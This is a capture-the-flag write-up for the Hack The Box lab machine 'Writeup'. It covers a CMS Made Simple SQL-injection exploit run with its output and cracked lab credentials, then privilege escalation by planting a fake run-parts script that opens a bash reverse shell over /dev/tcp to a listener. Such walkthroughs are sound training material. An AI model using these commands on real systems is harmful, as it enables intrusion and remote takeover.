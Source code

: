 ```yaml
---
layout: post
title:  "HTB - Writeup"
date:   2019-09-01 20:00 +0100
tags: writeups
---
```

Link: https://www.hackthebox.eu/home/machines/profile/192
IP: 10.10.10.138

<!--more-->

## Recon
Only Port 22 and 80 are open.
The page on Port 80 informs you that a DoS-Protection is in place, so no Dirbusting or Credential Stuffing!  
Instead, we spider the page with Owasp-ZAP. This yields some interesting paths.
```
/robots.txt
/sitemap.xml
/writeup/
/writeup/index.php?page=ypuffy
/writeup/index.php?page=blue
/writeup/index.php?page=writeup
```


## Webserver
The `robots.txt` leads us to /writeup, which doesn't seem to be DoS-Protected.  
Also, wappalyzer informs us that the site is built with *CMS Made Simple*.
By utilizing `searchsploit`, we find a SQL Injection for < 2.2.10. Important to note:  
Patch the `TIME` variable if you're on free! (I set mine to 4, the writeup page hints to 3 seconds).  
Now let it crack the password:

`python2 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/dirb/common.txt`

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
Dunno why, but the passcracker (`--crack`) refuses to run. I've put a simplified version into passcracker.py.  
If called with *rockyou.txt*, the password `raykayjay9` is found, which enables us to log in as ssh user jkr :3


Enumerate and have a look what happens on the system with `pspy`. If watched closesly, one can observe   
that a dynamic MOTD is generated. Maybe this can be exploited with path loading order?  
~~The only script in `/etd/update-motd.d`, `10-uname`, calls `uname` with a relpath, so if we overwrite uname with a shell, we're golden.~~  

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 

/usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d 
```
By playing around we see that `/usr/local/sbin` is writable. Simply place a script named `run-parts` there that opens a reverse shell to the own machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.13.125/9999 0>&1
```

On your own machine, run `nc -nvlp 9999` for a receiving end. The next time a user logs in, the shell is triggered. After that, the root.txt can be catted.
